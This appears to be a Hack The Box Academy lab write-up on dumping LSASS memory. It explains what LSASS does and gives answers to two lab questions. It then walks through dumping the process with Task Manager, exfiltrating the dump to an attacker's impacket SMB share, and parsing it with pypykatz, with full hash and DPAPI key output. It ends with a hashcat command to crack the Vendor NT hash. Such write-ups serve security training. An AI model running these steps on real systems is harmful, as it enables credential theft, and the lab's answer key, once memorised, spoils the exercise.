



## LSASS

- LSASS stands for Local Security Authority Subsystem Service.
- LSASS is the core Windows process responsible for enforcing security policies, user authentication, and storing credentials in memory.
- Upon initial Windows Logon, LSASS performs the below mentioned stuff :-
- Cache credentials locally in memory
	- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
	- Enforce security policies
	- Write to Windows' [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)


---
## Questions and Solutions

- What is the name of the executable file associated with the Local Security Authority Process?
	- **lsass.exe**

- Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)
	- **Mic@123**


Logging into the Windows remote machine using the given credentials.

```cmd
xfreerdp3 /v:10.129.202.149 /u:htb-student /p:'HTB_@cademy_stdnt!'
```



Dumping LSASS Process Memory using Task Manager.



Transferring `LSASS.DMP` to Linux Machine.

Starting the SMB server in Attack Machine.
```bash
$ sudo impacket-smbserver share -smb2support .                        
[sudo] password for kali: 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Authenticating Victim Machine to SMB server.

```cmd
PS C:\Users\htb-student\AppData\Local\Temp> net use n: \\10.10.17.121\share /user:kali
The command completed successfully.
```

Copying the `LSASS.DMP` file from the victim machine to attack machine.

```cmd
copy LSASS.DMP \\10.10.17.121\share\
```

Extracting the hashes from `LSASS.DMP` using `pypykatz`.

```bash
$ pypykatz lsa minidump lsass.DMP 
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 467664 (722d0)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2026-06-21T09:20:53.644734+00:00
sid S-1-5-90-0-2
luid 467664
        == WDIGEST [722d0]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [722d0]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 467636 (722b4)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2026-06-21T09:20:53.644734+00:00
sid S-1-5-90-0-2
luid 467636
        == WDIGEST [722b4]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [722b4]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 458038 (6fd36)
session_id 0
username htb-student
domainname FS01
logon_server FS01
logon_time 2026-06-21T09:20:47.410372+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1006
luid 458038

== LogonSession ==
authentication_id 43081 (a849)
session_id 1
username UMFD-1
domainname Font Driver Host
logon_server 
logon_time 2026-06-21T09:16:44.957247+00:00
sid S-1-5-96-0-1
luid 43081
        == WDIGEST [a849]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [a849]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 488814 (7756e)
session_id 2
username htb-student
domainname FS01
logon_server FS01
logon_time 2026-06-21T09:20:56.082233+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1006
luid 488814
        == MSV ==
                Username: htb-student
                Domain: FS01
                LM: NA
                NT: 3c0e5d303ec84884ad5c3b7876a06ea6
                SHA1: b2978f9abc2f356e45cb66ec39510b1ccca08a0e
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [7756e]==
                username htb-student
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: htb-student
                Domain: FS01
        == WDIGEST [7756e]==
                username htb-student
                domainname FS01
                password None
                password (hex)

== LogonSession ==
authentication_id 466290 (71d72)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2026-06-21T09:20:53.629110+00:00
sid S-1-5-96-0-2
luid 466290
        == WDIGEST [71d72]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [71d72]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 72725 (11c15)
session_id 1
username DWM-1
domainname Window Manager
logon_server 
logon_time 2026-06-21T09:16:46.316619+00:00
sid S-1-5-90-0-1
luid 72725
        == WDIGEST [11c15]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [11c15]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 999 (3e7)
session_id 0
username FS01$
domainname WORKGROUP
logon_server 
logon_time 2026-06-21T09:16:43.488490+00:00
sid S-1-5-18
luid 999
        == WDIGEST [3e7]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == Kerberos ==
                Username: fs01$
                Domain: WORKGROUP
        == WDIGEST [3e7]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == DPAPI [3e7]==
                luid 999
                key_guid 7a4c5806-cde2-4e33-bb8e-a7988d928856
                masterkey 3036713f3ccfde362f57050b050289413347b9063264743b01c65e4143c6806512ece05c708b934afe48cd5b8cfe88de125d6208bbe048bd3fb83838adf2946e
                sha1_masterkey 6c3046d0bc927cdfd9b4503c6115034018dbddd1
        == DPAPI [3e7]==
                luid 999
                key_guid 55ac0b5e-f00e-4a7f-8ee6-46367dfcf227
                masterkey 0f0e31c8bccf6120b94b9584bd6e190715b5aa6b94ba1a2fdaa379c56c2d49f320e24da69fdaf61d213f90738353e9085b8fbc82a498b62b8175f5ae6c195049
                sha1_masterkey ca4c90467e4904b6817392ca413a72668b8f0ee1
        == DPAPI [3e7]==
                luid 999
                key_guid 0c1b6c0a-191d-4839-8cf5-22ca4c3e5880
                masterkey dccd4056a5b0cc8211193669e6aea7755eeccd393adf0e5efa1f2a571c96039a7dbe05c9082c44f85b3080bb908eb41fb9f860174cd365e655f3d5788d5a8427
                sha1_masterkey efddd94b4348303e90c8d7285e8b65738196dc86
        == DPAPI [3e7]==
                luid 999
                key_guid 0453985c-7220-49f4-b024-79acf0de7874
                masterkey aaf3cdd36cf0d10871efd0d78a527664afc58078e84d49734f372fbb09e209538f606e0c5f0481b9f4d6ac6efb9a3631f16e38737a1b3cc15d0db42b63ebc90e
                sha1_masterkey 1d77f450edb6c76d14838b5b351672f35eec615f
        == DPAPI [3e7]==
                luid 999
                key_guid c19ecbf1-ea92-487e-a2d4-419f60a62360
                masterkey 387a060baf6887038b7ff133cd0eb4712ecdf531c16030a82395db368e6b2cda563dd026ccb815e1fb85215281a5437f085e3a5ca47fe9038e7e072f46270d74
                sha1_masterkey 5b07ca8e21e100937af4ab6d3f2482c745245436
        == DPAPI [3e7]==
                luid 999
                key_guid 6c61536b-7453-4ffa-911b-693858aef0c9
                masterkey 0c5f662bf8f65c75b773e4698606db1e2e387ad18a9c4fdee25e0dbac6eb7c04e04874d1910aba465ef3380a92b46231d7a781df2f5e38d2621e06c7476b222f
                sha1_masterkey cbabadd23d93b47ec94ac604ac91945135c5a097

== LogonSession ==
authentication_id 488843 (7758b)
session_id 2
username htb-student
domainname FS01
logon_server FS01
logon_time 2026-06-21T09:20:56.097862+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1006
luid 488843
        == MSV ==
                Username: htb-student
                Domain: FS01
                LM: NA
                NT: 3c0e5d303ec84884ad5c3b7876a06ea6
                SHA1: b2978f9abc2f356e45cb66ec39510b1ccca08a0e
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [7758b]==
                username htb-student
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: htb-student
                Domain: FS01
        == WDIGEST [7758b]==
                username htb-student
                domainname FS01
                password None
                password (hex)
        == DPAPI [7758b]==
                luid 488843
                key_guid c75b5a96-7d80-4511-8bb8-474e3c09670f
                masterkey 12e8cc72d4d672d492fc8878c736aea970e11d74e87061fe779ce8884c9f0cb20cd0db541f95440ed8c4d527a91682fb7721ba397700932a49c8dbb7120cd2c8
                sha1_masterkey a34f57ba87672c43f091934906052ac4cf7364f7

== LogonSession ==
authentication_id 127046 (1f046)
session_id 0
username Vendor
domainname FS01
logon_server FS01
logon_time 2026-06-21T09:16:48.363483+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1003
luid 127046
        == MSV ==
                Username: Vendor
                Domain: FS01
                LM: NA
                NT: 31f87811133bc6aaa75a536e77f64314
                SHA1: 2b1c560c35923a8936263770a047764d0422caba
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [1f046]==
                username Vendor
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: Vendor
                Domain: FS01
        == WDIGEST [1f046]==
                username Vendor
                domainname FS01
                password None
                password (hex)

== LogonSession ==
authentication_id 996 (3e4)
session_id 0
username FS01$
domainname WORKGROUP
logon_server 
logon_time 2026-06-21T09:16:45.410414+00:00
sid S-1-5-20
luid 996
        == WDIGEST [3e4]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == Kerberos ==
                Username: fs01$
                Domain: WORKGROUP
        == WDIGEST [3e4]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 997 (3e5)
session_id 0
username LOCAL SERVICE
domainname NT AUTHORITY
logon_server 
logon_time 2026-06-21T09:16:46.629116+00:00
sid S-1-5-19
luid 997
        == Kerberos ==
                Username: 
                Domain: 

== LogonSession ==
authentication_id 72707 (11c03)
session_id 1
username DWM-1
domainname Window Manager
logon_server 
logon_time 2026-06-21T09:16:46.316619+00:00
sid S-1-5-90-0-1
luid 72707
        == WDIGEST [11c03]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [11c03]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 43036 (a81c)
session_id 0
username UMFD-0
domainname Font Driver Host
logon_server 
logon_time 2026-06-21T09:16:44.957247+00:00
sid S-1-5-96-0-0
luid 43036
        == WDIGEST [a81c]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [a81c]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 41965 (a3ed)
session_id 0
username 
domainname 
logon_server 
logon_time 2026-06-21T09:16:43.847859+00:00
sid None
luid 41965

```

Locate the **Vendor** user **NT Hash** and store it in a file. Cracking the hash using `hashcat`. 

```bash
sudo hashcat -m 1000 Vendor_hash
```


